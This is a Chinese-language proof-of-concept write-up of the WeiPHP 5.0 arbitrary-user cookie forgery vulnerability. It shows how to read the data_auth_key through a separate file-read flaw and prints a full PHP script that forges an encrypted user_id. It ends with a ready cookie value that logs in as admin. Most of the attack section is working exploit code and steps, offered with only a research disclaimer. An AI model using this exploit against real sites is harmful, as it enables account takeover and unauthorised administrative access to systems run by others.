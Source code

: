 # WeiPHP5.0 任意用户Cookie伪造

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞简介

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的任意用户 `Cookie`伪造漏洞

## 影响范围

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

首先要利用前些天发布的 [WeiPHP5.0 前台任意文件读取](https://mp.weixin.qq.com/s?__biz=Mzg2Mzc2OTM0OQ==&mid=2247483782&idx=1&sn=cf245173b17817006375afb705167985&chksm=ce72c7ecf9054efa2495d2ad1ee2bd7be66bd2b638c84dc10cf971df7048717e239dd4e12c19&token=646394225&lang=zh_CN#rd) 读取 `data_auth_key`

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363316312-37768b1d-d740-4f49-9ad7-5df887591a52.png)

访问 `/index.php/home/file/user_pics`后下载该文件

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363372337-4f582642-dba2-4286-b9fe-ae8d091dde9e.png)

找到 `data_auth_key`的值为

```php
'data_auth_key' => 'kE^&%X.IpoDq2US*n!u>@G8+#Rd{_]a<QfJ3Lg9?'
```

接下来利用 `think_encrypt`伪造 `cookie`，稍微改造一下即可

```php
<?php
highlight_file(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5("kE^&%X.IpoDq2US*n!u>@G8+#Rd{_]a<QfJ3Lg9?");

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo think_encrypt(1);

?>
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363741220-9965dd38-56aa-4788-9448-e6a54d77d372.png)

因此可以构造

```php
user_id=MDAwMDAwMDAwMIC1cp4
```

利用 `hackerbar`即可登录 `admin`

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363859301-b4f78d46-2c90-4fcf-8420-b44af42f34d9.png)

## 总结

这个漏洞利用的前提是获得 `data_auth_key`，本文中是结合了前台任意文件读取漏洞获取，总体来说，如果该前台任意文件读取漏洞被补掉之后，这个洞就几乎无用武之地了。

## 参考链接

- `http://wiki.peiqi.tech/wiki/cms/WeiPHP/WeiPHP5.0%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7Cookie%E4%BC%AA%E9%80%A0%20CNVD-2021-09693.html#weiphp5-0-%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7cookie%E4%BC%AA%E9%80%A0-cnvd-2021-09693`



`github` 链接：`https://github.com/N0puple/vulPOC`

